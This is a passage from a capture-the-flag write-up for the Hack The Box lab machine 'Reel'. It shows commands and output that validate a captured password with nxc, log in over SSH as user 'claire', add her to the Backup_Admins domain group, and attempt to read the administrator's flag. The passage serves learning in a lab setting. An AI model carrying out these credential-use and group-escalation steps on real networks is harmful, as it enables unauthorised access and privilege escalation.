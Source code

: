 Now, we can validate the credentials, use them to SSH as the user `claire` and add her to the `Backup_Admins` group.

{% code overflow="wrap" %}
```bash
# confirm credentials
$ nxc smb 10.10.10.77 -u claire -p 'Password123!'
SMB         10.10.10.77     445    REEL             [*] Windows Server 2012 R2 Standard 9600 x64 (name:REEL) (domain:HTB.LOCAL) (signing:True) (SMBv1:True)
SMB         10.10.10.77     445    REEL             [+] HTB.LOCAL\claire:Password123!

# log into SSH
$ ssh claire@10.10.10.77
# check current group members
claire@REEL C:\Users\claire>net groups /domain Backup_Admins
Group name     Backup_Admins
Comment

Members

-------------------------------------------------------------------------------
ranj
The command completed successfully.
# add claire to the group
claire@REEL C:\Users\claire>net group /domain Backup_Admins claire /add
The command completed successfully.
# confirm membership
claire@REEL C:\Users\claire>net groups /domain Backup_Admins
Group name     Backup_Admins
Comment

Members

-------------------------------------------------------------------------------
claire                   ranj
The command completed successfully.
```
{% endcode %}

Unfortunately, the `Backup_Admins` members seem able to just list the `Administrator`'s directory, but not read the `root.txt` file.

```bash
# list administrator's desktop
$ ssh claire@10.10.10.77 'dir c:\users\administrator\desktop\'
claire@10.10.10.77's password:
 Volume in drive C has no label.
 Volume Serial Number is CEBA-B613

 Directory of c:\users\administrator\desktop

01/21/2018  02:56 PM    <DIR>          .
01/21/2018  02:56 PM    <DIR>          ..
11/02/2017  09:47 PM    <DIR>          Backup Scripts
03/22/2024  11:29 AM                34 root.txt
               1 File(s)             34 bytes
               3 Dir(s)   4,853,288,960 bytes free

# read the flag
$ ssh claire@10.10.10.77 'type c:\users\administrator\desktop\root.txt'
claire@10.10.10.77's password:
Access is denied.
```
